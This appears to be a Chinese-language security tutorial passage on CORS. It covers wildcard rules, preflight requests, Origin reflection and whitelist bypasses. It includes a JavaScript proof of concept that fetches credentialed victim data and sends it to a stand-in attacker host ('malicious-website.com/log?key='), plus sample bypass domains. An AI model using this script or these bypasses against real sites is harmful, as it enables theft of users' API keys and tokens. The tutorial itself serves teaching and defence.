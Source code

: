 CORS不支持使用通配符来匹配所有子域,如
```
Access-Control-Allow-Origin: *.a.com
```  
该方式是不支持的,唯一支持的通配符是只能接受全部站点.
```
Access-Control-Allow-Origin: *
```  
且通配符`*`和Header`Access-Control-Allow-Credentials: true`不能共存  
### CORS预检
在CORS规范中还有一个要求,在某些可能对服务器产生影响的请求方法发送前,浏览器需要先发送一个OPTIONS请求携带相关请求信息来确定服务器是否接受后续该要发送的请求,只有同时满足以下条件的请求才不需要先发送OPTIONS请求.  
1. 允许的HTTP请求方法: GET,HEAD,POST.  
2. 允许HEADER字段: Accept,Accept-Language,Content-Language,Content-Type,Range,其余Header被视为不安全的Header.  
3. 允许的Content-Type: text/plain,multipart/form-data,application/x-www-form-urlencoded.    

任何不同时满足以上条件的跨域请求都会需要先发送OPTIONS请求来确定服务器是否接受后续的请求.
### 客户端指定的Access-Control-Allow-Origin头 
Origin头:当发生跨域请求，或者同域时发送post请求，就会自动携带origin请求头,请求头origin表明了请求来自于哪个站点。包括且仅仅包括协议、域名和端口，并不包含任何路径信息.  

一些应用因为要维护大量的白名单域名与自己进行通信,这时候则会采取直接从请求的`Origin`Header来自动设置`Access-Control-Allow-Origin`而没有任何检查.  
```http
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
```
```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...
```  
如果响应包含任何敏感信息，如API密钥或CSRF令牌，则可以通过在网站上放置以下脚本来获取这些信息。  
```js
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
   location='//malicious-website.com/log?key='+this.responseText;
};
```  
### Origin headers白名单绕过
因为CORS不支持`*.domain`的方式来匹配,有些应用会建立一个白名单,然后将请求中的`Origin`Header字段与白名单内的域名进行匹配,如果在白名单内则自动设置对应的`Access-Control-Allow-Origin`头.  
而白名单的实现方式则可能会造成绕过,如往往只匹配url开头或者结尾,或者使用一些不严重的正则表达式.  
只匹配`main.com`结尾->`evilmain.com`.  
只匹配`main.com`开头->`main.com.evil.com`
### 特殊字符
使用一些特殊字符绕过正则表达式检测,比如`{`,`_`.